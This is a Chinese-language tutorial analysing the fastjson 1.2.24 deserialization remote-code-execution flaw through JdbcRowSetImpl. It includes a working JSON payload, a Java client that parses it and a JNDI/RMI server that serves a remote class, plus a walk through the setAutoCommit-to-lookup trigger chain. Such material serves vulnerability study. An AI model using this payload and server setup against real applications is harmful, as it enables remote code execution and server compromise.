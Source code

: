 # fastjson 反序列化漏洞详解（JdbcRowSetImpl）

> `apache common collections`以及Spring RCE都是利用了`readObject`方法进行利用链触发的。`fastjson`的反序列化则是利用了目标类的`set`方法与`get`方法，因为这两个方法是`fastjson`在进行反序列化时需要调用的方法。
>
> `fastjson`是一个java编写的高性能功能非常完善的JSON库，应用范围非常广，在github上star数都超过1w8，在2017年3月15日，`fastjson`官方主动爆出`fastjson`在1.2.24及之前版本存在远程代码执行高危安全漏洞。攻击者可以通过此漏洞远程执行恶意代码来入侵服务器。关于漏洞的具体详情可参考 https://github.com/alibaba/fastjson/wiki/security_update_20170315

## POC

主要的`payload`如下，很简单就是利用了Spring JNDI的漏洞，在进行`lookup()`方法时出现的漏洞。

```
{
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"rmi://127.0.0.1:1099/object",
    "autoCommit":true
}
```

整体的利用代码也很简单，就是将payload进行反序列化就可以。

### Client端

```
package JavaUnser;

import com.alibaba.fastjson.JSON;

public class fastjsonPoc {

    public static void JdbcRowSetImplTrriger(){
        //jdk8以下版本
        String payload="{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
                "\"dataSourceName\":\"rmi://127.0.0.1:1099/object\"," +
                "\"autoCommit\":true}";
        JSON.parseObject(payload);
    }
    public static void main(String args[]){
        try {
            JdbcRowSetImplTrriger();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

### Server端

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import com.sun.net.httpserver.HttpServer;

import javax.naming.Reference;
import java.net.InetSocketAddress;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class JNDIServer {

    public static void main(String[] args) throws Exception {
        System.out.println("Starting HTTP server");
        HttpServer httpServer = HttpServer.create(new InetSocketAddress(8000), 0);
        httpServer.createContext("/",new HttpFileHandler());
        httpServer.setExecutor(null);
        httpServer.start();

        Registry registry = LocateRegistry.createRegistry(1099);

        Reference reference = new Reference("ExportObject",
                "ExportObject","http://127.0.0.1:8000/");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("object",referenceWrapper);
    }
}
```

`server`端还有两个文件一个是`ExportObject.java`、还有一个`HttpFileHandler.java`，项目文件中都有就不贴上来了。首先要保证`target`文件下存在`ExportObject.class`，然后先开启`server`端，在开启`client`端就可以执行。

## 触发链

首先会执行`JdbcRowSetImpl`类下边的`autoCommit`属性，然后由于使用的是`parseObject`方法，会先触发所有的`set`操作，因此会触发`setAutoCommit`。

![1558168186744](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1558168186744.png)

进一步跟进到`connect`函数中，会看到有`lookup`方法，根据之前对于Spring RCE反序列化的分析，可以直接触发恶意类的反序列化以及恶意代码。

![1558168499092](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1558168499092.png)

![1558169486135](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1558169486135.png)

对应的调用链，有兴趣的可以自己跟进去一点点看。关键的部分就是上边的几个函数调用。

![1558169650224](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1558169650224.png)

然后就会进行反序列化的触发啦，这里要确认开启两个一个是Server端一个是Clinet端才能成功，然后设计一下线程`sleep`，不然会一直弹计算器弹崩掉。

![1558169741534](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1558169741534.png)





## 参考链接

[Java反序列化漏洞的一些利用链分析](https://www.anquanke.com/post/id/173459#h2-9)

[基于JdbcRowSetImpl的Fastjson RCE PoC构造与分析](http://xxlegend.com/2017/12/06/%E5%9F%BA%E4%BA%8EJdbcRowSetImpl%E7%9A%84Fastjson%20RCE%20PoC%E6%9E%84%E9%80%A0%E4%B8%8E%E5%88%86%E6%9E%90/)
